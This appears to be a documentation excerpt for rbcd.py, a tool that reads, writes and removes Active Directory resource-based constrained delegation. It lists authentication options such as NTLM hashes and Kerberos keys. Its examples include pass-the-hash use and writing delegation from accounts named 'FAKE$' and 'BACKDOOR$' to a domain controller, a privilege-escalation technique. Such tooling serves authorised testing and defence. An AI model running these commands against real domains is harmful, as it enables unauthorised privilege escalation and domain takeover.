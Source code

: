 ```
  -use-ldaps            Use LDAPS instead of LDAP
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON

Authentication:
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH
  -no-pass              Don't ask for password (useful for -k)
  -k                    Use Kerberos authentication
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

Connection:
  -dc-ip ip address     IP Address of the domain controller or KDC
  -dc-host hostname     Hostname of the domain controller or KDC
```

## Usage Examples

### Reading RBCD Configuration
```bash
# Read current RBCD configuration on target computer
python3 rbcd.py domain.com/user:password -delegate-to 'TARGET$' -action read

# Read RBCD configuration using NTLM hash
python3 rbcd.py -hashes :ntlmhash domain.com/user -delegate-to 'SERVER01$' -action read

# Read RBCD configuration using Kerberos
python3 rbcd.py -k domain.com/user:password -delegate-to 'WORKSTATION$' -action read
```

### Writing RBCD Configuration
```bash
# Configure RBCD to allow CONTROLLED$ to delegate to TARGET$
python3 rbcd.py domain.com/admin:password -delegate-to 'TARGET$' -delegate-from 'CONTROLLED$' -action write

# Add delegation rights using computer account
python3 rbcd.py domain.com/user:password -delegate-to 'SERVER01$' -delegate-from 'FAKE$' -action write

# Configure RBCD using NTLM hash authentication
python3 rbcd.py -hashes :ntlmhash domain.com/admin -delegate-to 'DC01$' -delegate-from 'BACKDOOR$' -action write
```

### Removing RBCD Configuration
```bash
# Remove specific delegation rights
python3 rbcd.py domain.com/admin:password -delegate-to 'TARGET$' -delegate-from 'CONTROLLED$' -action remove

# Remove delegation using hash authentication
python3 rbcd.py -hashes :ntlmhash domain.com/admin -delegate-to 'SERVER01$' -delegate-from 'FAKE$' -action remove
```
